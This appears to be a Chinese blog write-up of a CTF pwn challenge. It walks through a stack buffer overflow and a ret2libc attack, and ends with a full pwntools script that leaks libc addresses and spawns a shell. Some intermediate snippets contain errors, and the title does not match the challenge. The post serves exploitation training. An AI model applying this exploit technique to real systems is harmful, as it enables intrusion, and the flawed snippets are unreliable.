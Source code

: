 ```yaml
---
layout: post
title: "PWN.kr_input_wp"
subtitle: "input_writeup"
author: "Novocaine#p1an0@qq.com"
header-img: "img/post-bg-dreamer.jpg"
header-mask: 0.4
tags:
  - PWN
  - 二进制安全
---
```



题目链接：
==
http://www.bmzclub.cn/challenges#pwn2
前言
--

- 从BMZCTF中的一道题复习一下ret2libc

IDA-main：
==
```C
// local variable allocation has failed, the output may be wrong!
int __cdecl main(int argc, const char **argv, const char **envp)
{
  init(*(_QWORD *)&argc, argv, envp);
  bmzctf();
  puts("Welcome to BMZCTF");
  puts("Who are you?");
  if ( check() )
    puts("Only admin can attack me");
  else
    puts("Welcome");
  return 0;
}
```

IDA-check：
--

```c
int check()
{
  char buf; // [rsp+0h] [rbp-30h]

  read(0, &buf, 0x400uLL);
  return strcmp(&buf, "21232F297A57A5A743894A0E4A801FC3");
}
```

Leak-libcbase & system/binsh addr
--
漏洞点应该在check函数里，本题没有gadgets，没有int 80，只有ret2libc一条路了
根据ret2libc的流程，我们需要获取:
	1.**libc基址**
	2.**system str_bin_sh的地址**
看到函数里有puts，就用puts来leak出puts在got表中的位置，计算出libc基址和system str_bin_sh即可
```python
libc_base = leak-libc.dump('puts')
system = libc_base + libc.dump('puts')
str_bin_sh = libc_base + libc.dump('str_bin_sh')
```

现在开始搞基吧...
check函数中buf变量的偏移是0x30，read是0x400所以有很大空间给我们构造payload
```python
payload ="a" * 0x38 +  pop_rdi_ret + elf.got['puts'] + elf.plt['puts'] + main  
```
注意这里要回到main，因为我们leak完要重新走一遍流程
获取基址：
```python
puts_addr = u64(recvuntil('\x7f')[-6::].ljust(8,'\x00'))
```
至于为什么要这样写？大牛们都这么写的。
计算基：
```python
libc = LibcSearcher('puts',puts_addr)
libc_base = puts_addr - libc.dump('puts')
system = libc_base + libc.dump('system')
bin_sh = libc_base + libc.dump('str_bin_sh')
```
至此基就搞完了(逃

execute system bin_sh
---
到这里就是基本操作了
```python
payload = ""
payload += "a" * 38
payload += pop_rdi_ret
payload += bin_sh
payload += system
payload += p64(0xdeadbeef)
```

exp
---
```python
from pwn import *

from LibcSearcher import *

proc = process("./pwn2")

elf = ELF("./pwn2")

context.log_level="debug"

padding = "a"*0x30+"b"*8

pop_rdi_ret = 0x400833

mainaddr = 0x40076D

payload = ""

payload += padding

payload += p64(pop_rdi_ret)

payload += p64(elf.got['puts'])

payload += p64(elf.plt['puts'])

payload += p64(mainaddr)

proc.sendlineafter("Who are you?",payload)

_libc_start_main = u64(proc.recvuntil("\x7f")[-6:].ljust(8,"\x00"))

libc = LibcSearcher("puts",_libc_start_main)

libcOffset = _libc_start_main - libc.dump('puts')

system = libcOffset + libc.dump('system') 

_bin_sh = libcOffset + libc.dump('str_bin_sh')

print hex(_libc_start_main-_bin_sh)

payload = ""

payload += padding

payload += p64(pop_rdi_ret)

payload += p64(_bin_sh)

payload += p64(system)

payload += p64(0xdeadbeef)

proc.sendlineafter("Who are you?",payload)

proc.interactive()


```
